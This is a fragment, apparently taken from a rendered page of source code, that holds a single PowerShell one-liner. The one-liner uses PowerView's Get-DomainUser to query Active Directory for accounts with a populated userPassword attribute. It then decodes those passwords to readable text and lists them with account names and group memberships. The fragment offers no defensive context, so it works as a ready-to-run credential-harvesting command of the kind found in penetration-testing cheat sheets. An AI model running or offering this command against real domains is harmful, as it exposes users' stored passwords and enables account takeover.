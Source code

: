 ```powershell
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl

```

 